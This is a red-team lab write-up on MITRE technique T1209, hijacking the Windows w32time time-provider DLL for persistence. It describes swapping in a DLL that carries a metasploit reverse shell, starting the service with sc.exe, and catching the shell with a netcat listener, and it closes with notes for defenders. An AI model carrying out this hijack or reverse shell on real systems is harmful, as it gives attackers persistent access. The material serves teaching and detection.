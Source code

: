 ```yaml
---
layout: post
title: "t1209 hijacking time providers"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persistence/
---
```


---
description: Persistence
---

# Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If an attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get that malicious code executed. 

In this lab, we will just swap out the `w32time.dll` with our own. It contains a metasploit reverse shell payload:

![](../../.gitbook/assets/time-registry.png)

Starting the w32time service:

```csharp
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

Attacker receiving a reverse shell:

{% code title="attacker@local" %}
```csharp
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode %}

## Observations

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../../.gitbook/assets/time-context.png)

This time and time again shows that binaries running off of svchost.exe, especially if they are rundll32 and are making network connections, should be investigated further.

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1209" %}
@spotheplanet
